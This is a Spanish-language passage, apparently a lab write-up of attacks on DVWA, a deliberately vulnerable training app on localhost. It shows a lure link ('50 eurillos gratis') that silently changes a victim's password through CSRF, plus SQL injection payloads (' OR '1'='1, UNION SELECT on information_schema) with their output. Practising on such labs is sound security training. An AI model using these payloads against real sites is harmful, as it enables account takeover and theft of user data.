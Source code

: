 - XSS (Cross-Site Scripting) permite a un atacante inyectar scripts maliciosos en sitios web visitados por otros usuarios.

Para llevar a cabo esta práctica manipularemos el contenido del textbox para crear una etiqueta html, en este caso, un link, que al clickar le cambie su contraseña por una que nosotros hayamos especificado:

```html
<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=pepe1234&password_conf=pepe1234&Change=Change#">50 eurillos gratis</a>
```

De esta forma, una vez un usuario encuentre mi mensaje y lo clicke creyendo que va a ganarse 50€, se le cambiará la contraseña a `pepe1234`, sin que siquiera se de cuenta.

## Inyección SQL

Esta es la inyección de SQL más básica que existe, esta cadena rompe la lógica del sistema de autenticación al inyectar una condición que siempre es verdadera, traducido al lenguaje humano quiere decir `"Oye base de datos, dame el usuario cuyo nombre está vacío O donde 1 sea igual a 1 (lo cual siempre pasa)."`

```sql
' OR '1'='1
```

Dándonos este resultado:

```
ID: ' OR '1'='1
First name: admin
Surname: admin

ID: ' OR '1'='1
First name: Gordon
Surname: Brown

ID: ' OR '1'='1
First name: Hack
Surname: Me

ID: ' OR '1'='1
First name: Pablo
Surname: Picasso

ID: ' OR '1'='1
First name: Bob
Surname: Smith
```
Podemos listar las columnas de una tabla
```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
```
```sql
ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: user_id
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: first_name
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: last_name
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: user
```